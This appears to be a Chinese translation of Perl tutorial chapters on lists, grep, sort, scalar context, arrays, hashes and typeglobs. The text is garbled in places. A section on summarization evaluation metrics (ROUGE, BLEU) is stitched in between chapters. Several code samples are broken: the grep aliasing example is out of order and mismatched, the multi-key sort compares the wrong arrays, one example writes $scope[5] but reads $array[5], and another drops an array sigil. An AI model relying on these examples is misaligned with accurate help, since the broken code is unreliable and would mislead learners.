| 相关解决方案： | 所在页码： |
| --- | --- |
| 使用 my 设置作用域 | 299 |

## 使用 grep 查找符合标准的列表项

**map** 函数是一回事；使用它，你可以对列表的所有元素执行相同的操作。但是，如果你想做点稍微不同的事情呢？如果你想从列表中选出符合特定标准的项呢？比如，你想在一个主列表中找出所有大于 15 的数字。该如何找到它们？

你可以使用 **grep** 函数，其一般用法如下：

```
grep BLOCK LIST
grep EXPR, LIST
```

## 第 2 章 标量变量和列表

此函数对 *LIST* 的每个元素计算 *BLOCK* 或 *EXPR*（依次将 `$_` 设置为每个元素），并返回由表达式为真的那些元素组成的列表。注意，在标量上下文中，**grep** 返回表达式为真的次数。还要注意，此处的 *BLOCK* 和 *EXPR* 都在标量上下文中计算，这与 **map** 中的 *BLOCK* 和 *EXPR* 不同，后者是在列表上下文中计算的。

**grep** 函数与 **map** 的区别在于，**grep** 返回列表中特定标准为真的子列表，而 **map** 对列表的每个项计算表达式。

在这个使用 **grep** 的示例中，我从一个主列表创建一个新列表，其中新列表包含大于 15 的那些项：

```
print join(", ", (grep {$_ > 15} (11, 12, 15, 16, 17, 18)));
```

*16, 17, 18*

**grep** 函数通常涉及模式匹配。（有关模式匹配的更多细节，请参阅第 6 章。）此示例创建列表中所有元素*不是*字符 **x** 的子列表：

```
print grep(!/x/, a, b, x, d);
```

*abd*

这是另一个示例，使用正则表达式从文本中删除四个字母的单词（参见第 6 章）：

```
print join(" ",(grep {!/^\w{4}$/} (qw(Here are some four letter words.))));
```

*are letter words.*

关于 **grep** 有一点你应该知道：在工作时，**grep** 函数实际上返回对原始列表中项的别名。这意味着在 **grep** 语句中修改列表的元素实际上会修改原始列表中的元素。为了避免修改列表，你可以先复制一份列表。

以下示例使用一个数组 **@array1**，它有四个元素，所有元素都是 **1**。（有关如何使用数组的更多信息，请参阅下一章。我们在这里必须使用数组而不是直接列表，因为该列表需要从代码的第一行到最后一行保持持久。）此示例使用 **grep** 创建一个新数组 **array2**，在此过程中将 **array1** 中的每个值乘以 2。此代码的结果是 **@array1** 和 **@array2** 中的每个元素都乘以 2：

2

为了避免这种情况，你可以使用匿名数组构造器复制数组，我们将在第 9 章中介绍：

```
@array1 = (1, 1, 1, 1);
@array2 = grep {$_ *= 2} @array1;
print @array1[1];
```

1

注意，如果你在 **grep** 语句*之外*更改数组中的项，则不会有任何问题，也就是说 **@array1** 与 **@array2** 完全独立。只有在 **grep** 语句中，如果你操作 **$_**，才能修改原始数组：

```
@array1 = (1, 1, 1, 1);
@array2 = grep {$_} @array1;
@array2 = map {2 * $_} array2;
print @array1[1];
```

1

## 排序列表

"你的程序显示的所有古典音乐作品列表很棒，"大老板说。"但是，只有一件事：到目前为止，列表包含超过 20,000 个项目。" "是的，"你带着自豪说。"那按字母顺序排列那个列表怎么样？"大老板问。你想，*按字母顺序*排列？

你可以使用 Perl 的 **sort** 函数对列表进行排序：

```
sort *SUBNAME* *LIST*
sort *BLOCK* *LIST*
sort *LIST*
```

此函数对给定的 ***LIST*** 进行排序。***SUBNAME*** 给出子程序的名称，该子程序返回比较两个数据项的结果，方式与 **<=>** 和 **cmp** 运算符相同。（有关这些运算符的更多详细信息，请参阅第 4 章。）你也可以将比较代码放在 **BLOCK** 中。如果你不指定 **SUBNAME** 或 **BLOCK**，**sort** 按标准字符串比较顺序对列表进行排序。

例如，以下是对列表 ("c", "b", "a") 进行排序的方法：

```
print sort ("c", "b", "a");
```

*abc*

你可以在代码块中使用字符串比较运算符 **cmp** 来创建相同的结果——注意我在此比较中使用了特殊变量 **$a** 和 **$b**；这些变量由 Perl 自动填充：

```
print sort {$a cmp $b} ("c", "b", "a");
```

*abc*

你可以这样按降序排列：

```
print sort {$b cmp $a} ("c", "b", "a");
```

*cba*

你可以使用数值比较运算符 **<=>** 来比较值：

```
print sort {$a <=> $b} (3, 2, 1);
```

*123*

你还可以设置比较以按多个值排序。此示例对保存零售产品名称的数组进行排序（有关如何设置数组的更多详细信息，请参阅下一章），先按 **category** 然后按 **subcategory**：

```
@name = qw(soap blanket shirt pants plow);
@category = qw(home home apparel apparel farm);
@subcategory = qw(bath bedroom top bottom field);
```

```
@indices = sort {$category[$a] cmp $subcategory[$b]
    or $category[$a] cmp $subcategory[$b]} (0 .. 4);
```

```
foreach $index (@indices) {
    print "$category[$index]/$subcategory[$index]: $name[$index]\n";
}
```

*apparel/bottom: pants*
*apparel/top: shirt*


home/bath: 肥皂
home/bedroom: 毯子
farm/field: 犁

你甚至可以将比较值的代码放在子程序中，如下所示。（关于子程序以及如何读取传递给子程序的参数的更多细节，请参见第7章。）

```perl
sub myfunction
{
    return (shift(@_) <=> shift(@_));
}

print sort {myfunction($a, $b)} (3, 2, 1);
```

```
1
2
3
```

从 Perl v5.6.0 起，如果你给子程序指定 `$$` 原型，就不再需要显式使用 `$a` 和 `$b` 了（关于原型的更多内容，请参见第7章）：

```perl
sub myfunction($$)
{
    return (shift(@_) <=> shift(@_));
}

print sort myfunction (3, 2, 1);
```

```
1
2
3
```

列表排序可能非常耗时，因此代码优化非常重要。你可以找到各种关于如何优化排序的研究，包括 Perl 中的排序。如果你的排序操作占用了大量时间（参见第14章中的 Benchmark 模块，它可以让你检查这些操作所需的时间），查阅一些相关论文可能值得；例如，可以看看 CPAN。

> *提示：*排序涉及大量的比较，如果你的比较子程序包含大量代码，处理速度将会变得极其缓慢。一个解决方案是先使用 *map* 对数组执行该子程序中的所有计算，创建一个新数组，再使用 *sort* 对该数组排序，然后再次使用 *map* 还原回原来的数组。（这个过程称为 *map-sort-map* 排序。）

| 相关解决方案： | 参见页码： |
| --- | --- |
| **Benchmark** 测试代码执行时间 | 606 |

## 反转列表

要反转列表，你可以使用 **reverse** 函数：

```
reverse LIST
```

你可以按如下方式使用 **reverse** 来反转列表 **(1, 2, 3)** 中的元素：

```perl
print reverse (1, 2, 3);
```

```
321
```

就是这么简单。

## 强制标量上下文

如果你想*强制* Perl 在标量上下文中工作，该怎么做？可以吗？是的，可以。只需使用 **scalar** 函数：

```
scalar EXPR
```

此函数强制 ***EXPR*** 在标量上下文中被求值。顺便说一下，注意 Perl 没有官方运算符来强制表达式在列表上下文中被求值。

> **提示：**如果你确实想让 Perl 将表达式放在列表上下文中处理，可以使用列表运算符——即一对括号来强制将表达式视为包含一个元素的列表：***(expression)***。如果这还不够，你可以使用第9章将介绍的匿名数组构造器来创建一个包含一个元素的数组：***[@{[expression]}]***。

例如，假设你有列表 **(2, 4, 6)**：

```perl
print (2, 4, 6);
```

```
246
```

如果你使用 **scalar** 函数，它会将列表强制放入标量上下文中，这意味着它返回列表的最后一个元素：

```perl
print scalar (2, 4, 6);
```

```
6
```

**scalar** 函数返回列表中的最后一个元素，以此模拟逗号运算符的行为——逗号运算符在逗号分隔的列表中返回最后一个表达式的值：

```perl
$a = (2, 4, 6);
print $a;
```

```
6
```

你也可以通过将列表赋值给标量来强制标量上下文（例如 **$variable = (2, 4, 6)**），或者，虽然不够优雅，通过对列表执行标量运算来实现，比如使用 **+** 运算符加上零。

## 评估指标

抽象摘要系统需要生成在语法和语义上都正确的摘要。

生成摘要的 Rouge 指标分数会与标准答案摘要进行比较。

像 ROUGE、METEOR 和 BLEU 这样的自动化指标对于追踪模型性能的改进非常有用。

然而，近年来，摘要模型的评估已逐渐转向人工评估，以更好地捕捉生成摘要的质量 [5]。Meteor-Universal：面向任意目标语言的语言特定翻译评估 [6] Meteor 人工判断及其与 BLEU 的相关性。

## 示例问题与答案

ROUGE，即面向召回的摘要评估替代指标（Recall-Oriented Understudy for Gisting Evaluation），是一组指标和一个软件包，用于自然语言处理中自动摘要和机器翻译软件的评估。

这些指标将自动生成的摘要或翻译与参考摘要或一组参考（人工生成的）摘要或翻译进行比较。

ROUGE 包含以下指标：

-   ROUGE-N：系统摘要和参考摘要之间 N-gram 的重叠度。
    -   ROUGE-1 指系统摘要和参考摘要之间 unigram（每个词）的重叠度。
    -   ROUGE-2 指系统摘要和参考摘要之间 bigram 的重叠度。
-   ROUGE-L：基于最长公共子序列的 F 值。最长公共子序列问题考虑了句子级别的词序。

# 第3章 数组与哈希

| 如果你需要以下方面的快速解决方案： | 参见页码： |
| :--- | ---: |
| 创建数组 | 99 |
| 使用数组 | 101 |
| 数组的推入与弹出 | 103 |
| 数组的移位与非移位 | 105 |
| 获取数组长度 | 106 |
| 扩展或收缩数组 | 108 |
| 清空数组 | 109 |
| 合并与追加数组 | 109 |
| 使用数组切片 | 110 |
| 遍历数组 | 112 |
| 打印数组 | 114 |
| 拼接数组 | 115 |
| 反转数组 | 117 |
| 数组排序 | 118 |
| 判断数组元素是否已初始化 | 119 |
| 删除数组元素 | 119 |
| 读取命令行参数：@ARGV 数组 | 120 |
| 创建哈希 | 121 |
| 使用哈希 | 125 |
| 向哈希添加元素 | 127 |
| 判断哈希是否包含特定键 | 128 |
| 删除哈希元素 | 129 |
| 遍历哈希 | 129 |
| 打印哈希 | 132 |
| 反转哈希的键和值 | 133 |
| 哈希排序 | 134 |
| 合并两个哈希 | 135 |
| 在列表赋值中使用哈希和数组 | 136 |
| 为哈希预分配内存 | 137 |
| 使用类型glob | 137 |
| 类型glob作为符号表条目 | 139 |

## 深入探讨

本章关于数组和哈希的内容，承接了我们在前一章中开始的工作——组织数据。在第2章中，我们了解了 Perl 如何处理标量和基本列表，而在本章中，我们将进入下一步：使用数组和哈希。我们还将了解另一种重要的数据类型：*类型glob*。

## 数组全面解析

数组让你通过数字索引来组织一组数据项，并通过索引来引用这些数据项。能够通过索引访问数据在代码中往往非常有价值，因为你可以通过递增或递减索引来在程序控制下遍历整个数组。

你可以通过将列表赋值给数组变量来创建数组，数组变量在 Perl 中以 `@` 开头（`@` 是数组前缀解引用符）：

```perl
@array = (1, 2, 3);
```

要引用简单数组的各个元素，需要在方括号 `[` 和 `]` 内指定元素的索引，并将 `@` 替换为 `$`（注意 Perl 中数组索引从零开始）：

```perl
print $array[0];
```

```
1
```

> **提示：**虽然我说 Perl 中的数组是从零开始的，但事实上你可以将 Perl 特殊变量 `$[` 设置为 1，从而将数组的基数设为 1 而非 0；详见第10章。然而，`$[` 在 Perl 中已被弃用——即被认为是过时的——你不应该使用它，因为无法保证它在未来的 Perl 版本中还会被实现。

Perl 初学者常常对引用单个数组元素时使用 `$` 而非 `@` 作为前缀解引用符感到困惑。但请记住，Perl 使用前缀解引用符来确定变量的类型，这种用法是有道理的，因为简单数组中的单个元素是一个标量，其前缀解引用符是 `$`。

在本章中，我将研究标准 Perl 数组，它是一维的——即单行数据项。要了解多维数组，请参见第16章数据结构。

以上是数组的简要概述；所有细节将在本章后面逐一介绍。除了标准数组，Perl 还支持另一种类型的数组：关联数组，也称为哈希。

初学者来到 Perl 时往往不知道哈希是什么，但稍有编程经验就会成为这方面的专家，因为哈希在 Perl 中无处不在。如前所述，哈希也称为关联数组，其工作方式与数组非常相似，不同之处在于你使用文本字符串键（而非数字索引）来组织哈希中的数据。这一功能对于你希望通过名称（如 'title'）而非像标准数组那样通过数字来引用的数据非常有用。（这样看来，使用哈希比标准数组更接近真正的数据库编程。）

创建哈希时，你会将一个值（此处为 'apple'）与一个键（此处为 'fruit'）关联起来：

```perl
$hash{'fruit'} = 'apple';
```

注意其与使用标准数组的相似之处。主要区别在于：引用哈希中的特定项时使用 { 和 }，而非数组的 [ 和 ]；并且你使用文本字符串键（此处为 'fruit'）而非数字索引来索引值。还需注意，与数组一样，引用哈希中的单个值时使用 $ 前缀解引用符。

你可以按如下方式引用哈希中的新值并打印它：

```perl
$hash{'fruit'} = 'apple';
print "$hash{'fruit'}\n";
```

```
apple
```

哈希的前缀解引用符是 %，与数组一样，你可以使用列表赋值来创建哈希。在这样做时，你可以使用键/值对将存储在哈希中的值与文本键关联起来，如下所示：

```perl
%hash = (
    'fruit'   , 'apple',
    'sandwich', 'hamburger',
    'drink'   , 'bubbly',
);
```

现在，你可以像这样通过键来引用哈希中的值：

```
%hash = (
    'fruit'   , 'apple',
    'sandwich' , 'hamburger',
    'drink'   , 'bubbly',
);

print "$hash{'fruit'}\n";

apple
```

将数据组织成哈希通常比使用数组更直观，因为你可以使用文本键来从哈希中检索数据，这对于设置数据记录非常有用。例如，注意这个示例是多么清晰：

```
print $employees{'name'};
```

而使用数字索引的数组则为：

```
print $employees[13];
```

## 类型球

*类型球*是 Perl 中的另一种基本类型。类型球的前缀解引用符是 *，它也是你在搜索文件时使用的通配符字符，这是很恰当的，因为你可以使用类型球为与特定名称关联的所有类型创建别名。

例如，假设有两个变量，**$data** 和 **@data**：

```
$data = "Here's the data.";
@data = (1, 2, 3);
```

你可以使用类型球将这些变量别名为不同名称下的对应变量：

```
*alsodata = *data;
```

现在，**$alsodata** 是 **$data** 的别名，**@alsodata** 是 **@data** 的别名：

```
print "$alsodata\n";

Here's the data.
```

类型球实际上是 Perl 的符号表条目；它们让你能够直接访问 Perl 底层。类型球可以进行各种操作；例如，使用类型球，你可以找到数据项在内存中的实际地址，这就是以前在 Perl 中使用和按引用传递数据的方式。（有关使用引用的详细信息，请参见第 9 章。）如今，许多程序员认为类型球是 Perl 中比较晦涩的部分，主要是因为随着 Perl 引入了真正的引用，你不再需要使用类型球来获取引用。但是，你仍然使用类型球来传递和存储文件句柄。我们将在全书中看到它的其他用途，因此我在这里将其作为一种数据类型来介绍。

介绍到此结束。现在让我们深入细节，从数组开始。

# 即学即用

## 创建数组

编程正确性专员想知道为什么你要使用 40

数组变量以 @ 开头；否则，与标量使用相同的命名约定。在 Perl 中，标准数组是一维的，它将元素一个接一个地放在一行中，像这样：**[1, 2, 3]**。数组的强大之处在于你可以通过索引引用数组中的每个元素——第一个元素是元素 **0**；下一个元素是 **1**；以此类推。使用数组索引，你可以通过循环遍历数组中的所有数据。（有关循环的详细信息，请参见第 5 章。）

你可以通过将列表赋值给数组变量来创建数组：

```
@array = (1, 2, 3);
```

要查看新数组中的数据：

```
@array = (1, 2, 3);
print @array;
```

*123*

与标量一样，Perl 在你首次引用数组时创建它，如此创建的数组具有全局作用域——即在当前包中全局可访问。而且，与标量一样，你也可以使用 **my** 和 **local** 关键字显式声明数组以将其局部化。要了解该过程的工作原理，请参见关于子程序的第 7 章；我在其中详细讨论了程序作用域。

你可以使用 **[** 和 **]** 以及 **$** 前缀解引用符通过索引引用单个数组元素；使用 **$** 是因为标准数组的单个元素是标量：

```
@array = (1, 2, 3);
print $array[0];
```

除了数字，你当然还可以在数组中存储其他类型的标量，例如字符串：

```
@array = ("one", "two", "three");
print @array;
```

请注意，由于 Perl 在处理列表时会跳过空白字符（包括换行符），你也可以这样设置数组赋值（与列表一样，列表末尾的逗号是可选的）：

```
@array = (
    "one", "two", "three",
    "four", "five", "six",
);

print @array;
```

你可以使用 **x** 重复运算符，比如在这个例子中，我创建了一个包含 100 个零的数组：

```
@array = (0) x 100;
```

你也可以使用 .. 符号（称为*范围运算符*）：

```
@array = (1 .. 10);
```

此外，你可以使用引号运算符如 **qw**（事实上，初始化数组和哈希是 **qw** 最常见的用法）：

```
@array = qw(one two three);
print @array;
```

除了上述技术，你还可以使用 **push** 和 **unshift** 函数来创建或向数组添加元素。我将在本章稍后介绍这些函数。

当你引用一个尚不存在的数组元素时，Perl 会自动创建它：

```
@array = (1, 2, 3);
$scope[5] = "Here is a new element!";
print "$array[5]\n";
```

*Here is a new element!*

使用其他语言的程序员经常会想知道在 Perl 中是否可以在使用之前为数组分配资源。事实上，你可以在创建数组后使用上述技术将其扩展到任意长度；只需引用一个尚不存在的元素即可。如果你以这种方式*扩展*数组到所需的大小，实际上比逐个构造数组元素要节省一些时间。而且，从 Perl 5.004 开始，你也可以预设哈希的大小。我将在本章稍后介绍这个过程。

正如我在"深入探讨"部分所提到的，标准 Perl 数组默认是零基的，但你实际上可以通过在 Perl 特殊变量 `$[` 中放置新值来更改基数。然而，在 Perl 中使用 `$[` 已被弃用，这意味着你仍然可以这样做，但这样做被认为是过时的（不同于 Java 等其他语言，弃用的方法会变得不可访问）。

## 使用数组

你已经能够创建新数组并添加元素，给编程正确性专员留下了深刻印象。事实上，你已经能够将所有 40,000 名员工的名字存储在一个数组中。"好吧，"PCC 说，"现在你打算如何访问那个数组中的数据？"你说，"*访问*它？"

创建数组后，你可以通过在数组名前加上 `$` 并在方括号中使用数字索引来将数组的各个元素作为标量引用：

```
@array = ("one", "two", "three");
print $array[1];
```

*two*

换句话说，你可以通过将索引放在方括号中，简单地将标准数组视为标量的索引集合。你也可以批量处理数组中的元素，比如在这里，我将一个数组复制到另一个数组：

```
@a1 = ("one", "two", "three");
@a2 = @a1;

print $a2[1];
```

two

许多函数可以与数组一起使用，还有像切片这样的数组技术，你将在接下来的主题中看到。

由于你使用索引访问数组元素，数组可以充当查找表，比如在这个例子中，我将用户输入的十进制值（0-15）转换为十六进制数字：

```
while(<>) {
  @array = ('0' .. '9', 'a' .. 'f');
  $hex = $array[$_];
  print "$hex\n";
}
```

从程序员的角度来看，数组能够按数字索引数据值这一点非常强大，允许你使用这样的循环遍历整个数据集中的所有数据（我们将在第 5 章看到 **for** 语句），其中我改变循环索引来处理数组中的每个值：

```
@array = ("one", "two", "three");
for ($loop_index = 0; $loop_index <= $#array; $loop_index++) {
    print $array[$loop_index] . " ";
}
```

one two three

特别注意 **$#array** 的用法，这是 Perl 中表示数组最后一个索引的符号。有关该符号和其他有趣的数组事实（例如在标量上下文中使用数组时返回其长度），请参见本章后面的"查找数组长度"主题。

一个鲜为人知的 Perl 事实是，你可以将数组的末尾视为起点（如果你使用负索引），并且随着这些索引的增加，你会向数组的开头移动：

```
@a1 = (1, 2, 3);

print @a1[-2];
```

2

# 数组的压入与弹出操作

> “我放弃了，”新手程序员说，“有没有简单的方法可以向数组末尾添加新元素？加法运算符 `+` 好像只在标量上下文中有效。我不能把两个数组加在一起。”“当然有办法，”你对这位新手说，“只需要使用 **push** 函数。”

除了使用列表赋值外，你还可以使用 **push** 和 **pop** 函数来操作数组。**push** 函数向数组末尾添加一个或多个值：

```
push ARRAY, LIST
```

具体来说，**push** 函数会将 **LIST** 的值压入到 **ARRAY** 的末尾，这意味着 **ARRAY** 的长度会增加 **LIST** 的长度。

另一方面，**pop** 函数从数组中取出一个值：

```
pop ARRAY
pop
```

该函数会弹出并返回数组的最后一个值，同时将数组长度缩短一个元素。如果未指定要弹出的数组，**pop** 会使用 **@ARGV**（传递给脚本的命令行参数数组），或者在子程序中使用时，会使用名为 **@_** 的数组（该数组保存传递给子程序的值）。

此示例展示了如何将值压入数组：

```
push(@array, "one");
push(@array, "two");
push(@array, "three");
print $array[0];
```

*one*

而此示例展示了如何从数组中弹出值，将数组长度缩短一个元素：

```
@array = ("one", "two", "three");
$variable1 = pop(@array);
print $variable1;
```

*three*

熟悉栈的程序员会注意到如何使用 **push** 和 **pop** 将数组当作栈来处理。事实上，下一个示例就是明确地这样做的。在这个例子中，我将通过连续提取十六进制数字，将十进制数转换为十六进制数。由于提取顺序与打印顺序相反，我将它们**压入**数组，然后依次**弹出**这些数字以正确的顺序显示它们。

代码如下所示。请注意，我使用整数算术来避免余数问题（代码开头的 `use integer` 使 Perl 使用 **integer** 模块），并且我依赖于在标量上下文中数组返回其长度这一事实（参见即将介绍的“查找数组长度”主题），以及第二个 `while` 循环中 **0** 对应于假值这一事实（更多关于 `while` 循环的细节请参见第 5 章）。

```
use integer;

$value = 257;

while($value) {
    push @digits, (0 .. 9, a .. f)[$value & 15];
    $value /= 16;
}

while(@digits) {
    print pop @digits;
}
```

*101*

用程序员的术语来说，当你将数组视为一行数据时，**push** 向数组的右端添加一个元素，而 **pop** 则从右端移除它。

| 相关解决方案 | 所在页码 |
| --- | --- |
| 使用 **for** 循环进行循环 | 194 |
| 使用 **while** 循环遍历元素 | 202 |

## 数组的移入与移出操作

“好吧，好吧，”新手程序员说，“我现在完全明白 **push** 和 **pop** 了。但是，这对我的需求来说是在数组的错误一端操作。我想操作数组的左端，从索引 0 开始。我有没有什么简单的方法可以向数组的这一端添加元素，而不需要重建整个数组？”“当然，”你说，“只需使用 **shift**。”

**shift** 和 **unshift** 在数组的左端执行与 **push** 和 **pop** 在右端相同的操作——添加或移除值。

我先来看看 **shift**；以下是 **shift** 的一般用法：

```
shift ARRAY
shift
```

此函数会移除数组的第一个值并返回它，将数组长度缩短一个元素，并将所有元素向左移动一个位置。如果未指定要移除的数组，**shift** 会使用 **@ARGV**（传递给脚本的命令行参数数组），或者在子程序中使用时，会使用名为 **@_** 的数组（该数组保存传递给子程序的值）。

此示例使用 **shift** 获取命令行传递给脚本的第一个参数。在这种情况下，你可以编写一个名为 shifty.pl 的脚本，其中只包含这一行代码：

```
print shift;
```

现在，你可以在命令行运行它，传递一些参数，shifty.pl 将显示这些参数中的第一个：

```
%perl shifty.pl now is the time
```

*now*

实际上，我们将在第 7 章关于子程序的部分经常看到 **shift**，因为使用 **shift** 是从存储它们的数组 **@_** 中取出传递给子程序的值的常用方法。

通常，你可以这样使用 **unshift**：

```
unshift ARRAY, LIST
```

此函数执行与 **shift** 相反的操作：它将 **LIST** 添加到数组的开头，并返回数组中的新元素数量。

让我们看一个例子。在这个例子中，我可以使用 **shift** 从数组中获取一个元素：

```
@array = ("one", "two", "three");
$variable1 = shift(@array);
print $variable1;
```

*one*

我再给你看一个使用 **unshift** 的例子。在前面的主题中，我写了一个通过提取十六进制数字并将它们压入数组，然后弹出以反转顺序并显示数字，从而将十进制数转换为十六进制数的示例。因为 **unshift** 的工作方式类似于 **push**，但它是将元素添加到数组的开头（而不是末尾），所以如果你使用 **unshift** 按顺序添加数字，而不是使用 **push** 逆序添加，那么你就不需要从数组中弹出数字，像这样：

```
use integer;

$value = 257;

while($value) {
    unshift @digits, (0 .. 9, a .. f)[$value & 15];
    $value /= 16;
}

print @digits;
```

*101*

## 查找数组的长度

大老板打来了电话。“我总是记不住，”老板说，“我们有多少员工——40,122 还是 40,123？”“嗯，”你说，“我把他们都存储在我 Perl 程序的 **@employees** 数组里了。”“很好，”老板说，“那个数组里包含多少个元素？”“嗯，”你说，“问得好。”

如果你有一个数组，比如叫 **@array**，表达式 **$#array** 保存着数组的最后一个索引值。（请注意，**@array** 这个名字本身并没有什么特殊之处；如果你的数组叫，比如 **@phonenumbers**，那么表达式 **$#phonenumbers** 将保存它的最后一个索引值。）

例如，如果你有一个这样的数组，

```
@array = (1, 2, 3);
```

你可以通过给 **$#array** 加一来显示数组中的元素数量（注意，你必须给 **$#array** 加一，因为数组索引是从零开始的）：

```
@array = (1, 2, 3);
print "\@array has " . ($#array + 1) . " elements.";
```

```
@array has 3 elements.
```

这里有一个有用的提示：更改 **$#array** 也会更改数组的长度。例如，以下语句执行相同的操作——从数组中弹出一个元素。（这里，我使用递减运算符将 **$#array** 减一；关于此运算符的更多细节请参见第 4 章。）

```
$value = pop(@array);
$value = $array[$#array--];
```

> **提示：** 那么，如何清空一个数组呢？只需将 **$#array** 设置为 **-1** 即可。

请注意，在标量上下文中使用数组会返回其长度。要将数组置于标量上下文中，你可以做一些没有实际效果的数值操作，比如给它加上零——**@array + 0**——或者更专业一点，你可以使用 **scalar** 函数：

```
@array = (1, 2, 3);
print "\@array has " . scalar(@array) . " elements.";
```

```
@array has 3 elements.
```

或者，你可以将数组赋值给一个标量变量：

```
@array = (1, 2, 3);
$variable = @array;
print "\@array has $variable elements.";
```

```
@array has 3 elements.
```

在标量上下文中数组返回其长度这一事实在你遍历该数组时非常有用，例如在前面将十进制转换为十六进制的例子中：

```
use integer;

$value = 257;
```


```
while($value) {
    push @digits, (0 .. 9, a .. f)[$value & 15];
    $value /= 16;
}

while(@digits) {
    print pop @digits;
}

101
```

许多新手程序员试图使用 + 运算符来合并数组，但该操作发生在标量上下文中，因此你很容易明白为什么这里打印的是**6**：

```
@a1 = ("one", "two", "three");
@a2 = @a1;
@a3 = @a1 + @a2;
print "@a3";

6
```

| 相关解决方案： | 所在页码： |
| --- | --- |
| 处理自增和自减：++ 和 -- | 149 |

## 数组的扩容或缩容

你可以通过改变数组最后一个索引的值来改变数组中的元素个数（称为*扩容*或*缩容*）：**$#array**。例如，你可以将**$#array**设为一个新值——在本例中是**10**——如下所示：

```
@array = (1, 2, 3);
$#array = 10;
$array[5] = "Here is a new element!";
print "$array[5]\n";

Here is a new element!
```

实际上，如果你只是引用数组中不存在的元素，Perl 会根据需要扩展数组，创建新元素直到并包含该新元素：

```
@array = (1, 2, 3);
$array[5] = "Here is a new element!";
print "$array[5]\n";

Here is a new element!
```

如果你知道要创建一个长数组，可以先创建数组并将其增长到所需长度，而不是逐个添加元素，这样后台会带来一些额外的效率。

> 提示：在 Perl 4 之前，缩短后再加长数组会恢复丢失的元素，但这种情况不再发生。

## 清空数组

是时候读取一组新数据了。那么，如何清空数组并重新开始？你可以通过将数组长度设为负数来清空数组：

```
$#array = -1;
```

另一种清空数组的方法是给它赋上空列表 ()，因为未初始化数组正是如此：

```
@array = ();
```

但是，不要试图通过将数组设为**undef**来清空它，如下：

```
@array = undef;
```

如果这样做，你会得到一个只有一个元素——**undef**——的数组，这仍然是一个完全有效的数组。

## 合并与追加数组

大老板来电了。“我终于接管了我们的竞争对手 BigMegaSoftwareCo，”BB 说，“所以把它所有员工都加到你的员工数组里。”“哇，”你说，“这工作量可真大。”你能轻松合并两个数组吗？

是的，可以。你可以通过列表赋值来合并两个数组。在本例中，我将**@a1**和**@a2**合并到一个新数组**@a3**中：

```
@a1 = (1, 2, 3);
@a2 = (4, 5, 6);
@a3 = (@a1, @a2);
```

现在，你可以随意使用这个新数组：

```
print $a3[5];
```

6

本例的原理是将两个数组**@a1**和**@a2**展平成一个长列表，然后赋值给**@a3**。

你也可以像这样用**push**将一个数组追加到另一个数组末尾，这里我将**@a2**追加到**@a1**的末尾：

```
@a1 = (1, 2, 3);
@a2 = (4, 5, 6);
```

```
push (@a1, @a2);
print join (", ", @a1);
```

*1, 2, 3, 4, 5, 6*

使用**push**时，内部实际发生的复制比本节开头使用简单列表赋值时要少得多。

## 使用数组切片

“可是，”新手程序员哀叹道，“我不想要整个数组。我只想要一个元素子数组，只要数组中间的那些元素。我怎么把它们放到自己的数组里？”“别担心，”你从容地说，“用切片。”

*数组切片*是数组中表现像列表的一部分，你可以用方括号**[**和**]**中的多个数组索引来指定要放入切片的元素。例如，我可以这样创建一个数组前四个元素的切片：

```
@a1 = (1, 2, 3, 4, 5, 6);
@a2 = @a1[0, 1, 2, 3];
print join (", ", @a2);
```

*1, 2, 3, 4*

你也可以使用范围运算符 (..) 来指定切片：

```
@a1 = (1, 2, 3, 4, 5, 6);
@a2 = @a1[0 .. 3];
print join (", ", @a2);
```

1, 2, 3, 4

不过，切片中的元素不必连续。我可以如下创建仅包含两个元素的切片：

```
@a1 = (1, 2, 3, 4, 5, 6);
@a2 = @a1[1, 3];
print join (", ", @a2);
```

2, 4

当你试图从列表中选取多个元素时，切片非常有用。在下一个例子中，我将使用**stat**函数（详见第 13 章），该函数以列表格式返回文件信息。以下是**stat**返回列表的元素（其中一些仅在 Unix 中有意义）：

- Element 0：**dev**——文件系统设备号
- Element 1：**ino**——Inode 号
- Element 2：**mode**——文件模式（类型和权限）
- Element 3：**nlink**——指向该文件的硬链接数
- Element 4：**uid**——文件所有者的数字用户 ID
- Element 5：**gid**——文件所有者的数字组 ID
- Element 6：**rdev**——设备标识符
- Element 7：**size**——文件总大小，以字节为单位
- Element 8：**atime**——自纪元起的最后访问时间
- Element 9：**mtime**——自纪元起的最后修改时间
- Element 10：**ctime**——自纪元起的 Inode 更改时间

假设你想要其中两个值——**atime**和**mtime**。你可以这样创建一个切片：

```
($atime, $mtime) = (stat 'timer.pl')[8, 9];
```

你也可以使用切片来处理数组的某些部分，如下例所示，我使用 Perl 的**reverse**函数反转数组中部分元素的顺序，而不是全部：

## 第 3 章 数组与哈希

```
@array = (1, 2, 3, 4, 5, 6);
@array[2 .. 4] = reverse @array[2 .. 4];
print join (", ", @array);
```

1, 2, 5, 4, 3, 6

以下是可能你没想到的：像**@array[1]**这样的表达式看起来像是错误，但实际上它是一个切片——一个单元素列表。不过，要小心；像**@array[1]**这样的表达式通常是错误，因为程序员实际想写的是**$array[1]**（尤其是作为左值使用时）。

## 遍历数组

> “好了，”数据处理经理说，“我们已经把所有数据放入数组了。现在，设置一个循环来遍历所有数据并求和吧。”“设置一个*循环*？”你问道。

循环将在第 5 章介绍，但由于数组作为编程构造最初就是为循环而设计的，而且现在这仍然是使用数组最流行的方式之一，因此我将在这里介绍遍历数组数据的概念。（毕竟，本书更像是一本解决问题的参考书，而不是需要按顺序阅读的教材。）如果你对这部分内容有困难，请参见第 5 章。

正如你在本章前面所见，你可以使用**for**循环遍历数组，通过索引显式引用每个元素：

```
@array = ("one", "two", "three");
for($loop_index = 0; $loop_index <= $#array; $loop_index++) {
    print $array[$loop_index];
}
```

**onetwothree**

这里的要点是数组索引由程序控制，这正是数组如此受欢迎的原因（而使用无序文本字符串作为键的哈希表则不如数组受欢迎）。

你也可以使用**foreach**循环来遍历数组中的每个元素，如下所示。（有关**foreach**的更多细节，请参见第 5 章。你可能会惊讶地发现，**for**和**foreach**实际上是同一个循环。）

```
@array = (1, 2, 3, 4, 5);
foreach $element (@array) {
    print "$element\n";
}
1
2
3
4
5
```

你还可以通过创建数组列表同时将多个数组一起遍历（这些数组会被插值成一个列表）：

```
@array = (1, 2, 3);
@array2 = (4, 5, 6);
foreach $element (@array, @array2) {
    print "$element\n";
}
1
2
3
4
5
6
```

你甚至可以使用**for**循环，完全不显式引用循环中的元素，只需使用默认变量 $_：

```
@array = (1, 2, 3, 4, 5);
for (@array) {
    print;
}
12345
```

而且，当你依次弹出数组元素时，可以利用数组在标量上下文中返回其长度这一特性，正如我在前面将十进制数转换为十六进制的例子中所做的那样：

```
